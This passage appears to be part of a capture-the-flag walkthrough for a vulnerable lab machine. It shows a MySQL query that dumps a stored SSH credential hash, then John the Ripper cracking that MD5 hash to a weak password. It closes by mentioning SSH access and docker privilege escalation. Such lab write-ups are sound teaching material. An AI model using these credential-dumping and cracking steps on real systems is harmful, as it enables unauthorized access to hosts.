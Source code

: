 | wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
13 rows in set (0.00 sec)


MySQL [wordpress]> select * from host_ssh_cred;
select * from host_ssh_cred;
+-------------------+----------------------------------+
| id                | pw                               |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
1 row in set (0.00 sec)

MySQL [wordpress]> 
{{< / highlight >}}

Cracking this with john the ripper is trivial:

{{< highlight markdown >}}
root@kali:~/hackinos# cat mysql.txt 
hummingbirdscyber:e10adc3949ba59abbe56e057f20f883e
root@kali:~/hackinos# john --format=Raw-MD5  mysql.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
No password hashes left to crack (see FAQ)
root@kali:~/hackinos# john --show --format=Raw-MD5  mysql.txt
hummingbirdscyber:123456

1 password hash cracked, 0 left
root@kali:~/hackinos# 
{{< / highlight >}}

We can use this to SSH to the host and then escalate privileges via docker to gain root, as in the original post.

